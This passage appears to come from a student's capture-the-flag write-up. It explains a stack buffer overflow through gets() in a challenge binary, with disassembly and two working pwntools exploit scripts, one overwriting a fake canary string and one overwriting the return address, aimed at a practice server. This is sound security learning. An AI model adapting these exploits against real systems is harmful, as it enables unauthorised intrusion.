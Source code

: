 ```
 80491c8:       8d 85 7b ff ff ff       lea    eax,[ebp-0x85]
 80491ce:       50                      push   eax
 80491cf:       e8 7c fe ff ff          call   8049050 <gets@plt>
```
Yet again the vulnerable `gets` function is used, taking in the address ebp-0x85 so this must be the start of our buffer. This means if we write 128 bytes of data (0x85-0x05 = 0x80 = 128), we'll reach ebp-0x05 and then whatever we write after that will overwrite that data used in the `strncmp`. So obviously we want to write "1234" here. After this the `strncmp` succeeds and we get a shell. The exploit script looks like this:

```
from pwn import *

p = remote('plsdonthaq.me', 2003)
#p = process('./bestsecurity')
p.recvline()

# pad from 0x85 (start of buffer) to 0x5 (location of constant string)
padding = b'A'*128
comparison_string = b'1234'
payload = padding + comparison_string

p.sendline(payload)
p.interactive()
```
It's worth noting that since this is a fake canary, we can actually still overwrite the return address and simply return back into `check_canary` where the success message is pushed onto the stack:
```
 80491ee:       68 11 a0 04 08          push   0x804a011
```
To do this we need to adjust our padding since the return address is at ebp+0x04. ebp+0x04 - ebp-0x85 = 0x89 = 137 bytes of padding. So the following exploit will also work:
```
from pwn import *

p = remote('plsdonthaq.me', 2003)
#p = process('./bestsecurity')
p.recvline()

# pad from ebp-0x85 (start of buffer) to ebp+0x4 (location of return address)
padding = b'A'*0x89
success_addr = p32(0x080491ee)
payload = padding + success_addr

p.sendline(payload)
p.interactive()
```

stack-dump
===========================
Flag: FLAG{}
General overview of problems faced
-------------------------------------
- Getting lost in the assembly: For the most part I was able to solve all the previous challenges using just objdump and a tiny bit of gdb, but I think there was just too much code for me to keep track of in this challenge. As a result I kept getting confused between which addresses related to what and what was actually kept on the stack. Once I opened binary ninja and used the graph view, everything started to make more sense. The main thing I identified from binary ninja was actually the reuse of ebp-0x68 since the variable label var_6c was much more identifiable to me.